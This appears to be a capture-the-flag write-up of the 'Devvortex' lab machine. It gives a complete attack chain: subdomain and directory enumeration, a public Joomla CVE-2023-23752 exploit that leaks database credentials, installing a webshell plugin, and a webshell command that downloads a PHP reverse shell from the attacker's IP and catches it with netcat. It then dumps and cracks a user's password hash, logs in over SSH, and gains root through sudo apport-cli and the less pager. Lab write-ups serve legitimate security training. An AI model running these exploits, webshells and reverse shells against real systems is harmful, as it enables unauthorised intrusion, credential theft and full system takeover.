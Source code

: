# Seasonal Machine devvortex easy machine

# Enumerate 
Firstly Copy the ip machine and fill it on `/etc/hosts devvortex.htb`

enumerate subdo with gobuster or fuzz for nmap i scanned but only 22 and 80 port opened

`gobuster vhost -u http://devvortex.htb/ -w /usr/share/wordlists/Seclists/Discovery/DNS/subdomains-top1million-5000.txt -apppend-domain`

and you will got this subdomain dev.devvortex.htb and back again to /etc/hosts fill it
after that

Enumerate the files

`gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/`

```
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
```

this mean is this website use joomla because the folder name is administrator and second is /language

so how to exploit it to revshell?we enum again use gobuster again but add .txt like this

```gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.devvortex.htb/ -x .txt```

```/README.txt           (Status: 200) [Size: 4942]```

got it
so copy the files go to subdo 
Joomla! CMS™

# Overview
	* This is a Joomla! 4.x installation/upgrade package.
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 4.2 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_4.2_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/4.2-dev
    

Go to google search Joomla 4.2 Exploit

You will find this website https://github.com/Acceis/exploit-CVE-2023-23752

```
git clone https://github.com/Acceis/exploit-CVE-2023-23752.
cd Explot-xxxxx
gem install httpx docopt paint

or

bundle install```


ruby exploit.rb http://dev.devvortex.htb

```
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: ******
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
                      
```

DB user: lewis
DB password: ##&&&**^%&&&
go login http://dev.devvortex.htb/administrator copy db user and db paswd then paste it to form login

For Upload Shell Search on google joomla upload shell 
u will found this exploit 
https://github.com/p0dalirius/Joomla-webshell-plugin
Download as zip 
Go to "System --> Extensions" page, at http://127.0.0.1:10080/administrator/index.php?option=com_installer&view=install, and click on "Upload Package File":

upload .zip you downloaded it

Response:"Installation of the module was successful."


#Access Webshell 
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php

i tried revshell use bash not work so i tried upload shell pentest monkey is work!

Open new terminal go to folder webshell and run python -m http.server 80

http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=wget -O /var/www/dev.devvortex.htb/c.php http://10.10.14.27/rev.php

```Output
"--2023-11-26 04:55:55--  http://10.10.14.27/rev.php\nConnecting to 10.10.14.27:80... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 2585 (2.5K) [application/octet-stream]\nSaving to: '/var/www/dev.devvortex.htb/c.php'\n\n     0K ..                                                    100% 3.39M=0.001s\n\n2023-11-26 04:55:55 (3.39 MB/s) - '/var/www/dev.devvortex.htb/c.php' saved [2585/2585]\n\n"
```
Its Work Uploaded!!

http://dev.devvortex.htb/c.php

```
nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.242] 33522
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 04:57:36 up  1:30,  2 users,  load average: 0.00, 0.03, 0.42
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
logan    pts/0    10.10.16.2       03:28    1:14m  9.01s  0.03s sshd: logan [priv]  
logan    pts/3    10.10.16.11      03:53   31:03  18.99s  0.03s sshd: logan [priv]  
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$
```

for login ssh you need login mysql u can use adminer or mysql command like this

do not forgot spawn tty shell python , because if you not spawn tty its now work 

```mysql -u lewis -p joomla ```

```Enter password: 
**********
mysql> use joomla;
show tables;
sd4fg_users

select * from sd4fg_users;
------------------------------------------------------------------------------------------
Username    Password
------------------------------------------------------------------------------------------
logan    | $2y$10$IT4k5kmSG*******************************

copy the password and hash it use john the ripper

ssh logan@dev.devvortex.htb 

Hashes password:tequieromucho
```


# Privilege Escalation

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
 ```

# Refference 

https://nvd.nist.gov/vuln/detail/CVE-2023-2660

https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb


`sudo /usr/bin/apport-cli -c /bin/chfn less`

for path anything you can use but do not forget add less 

```
Please choose (S/V/K/I/C):v

== ProcCpuinfoMinimal =================================
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
cpu MHz         : 2994.375
cache size      : 512 KB
physical id     : 2
siblings        : 1
core id         : 0
cpu cores       : 1
apicid          : 2
initial apicid  : 2
fpu             : yes
fpu_exception   : yes
cpuid level     : 16
!sh

# id
uid=0(root) gid=0(root) groups=0(root)

success :D

Happy Hacking 

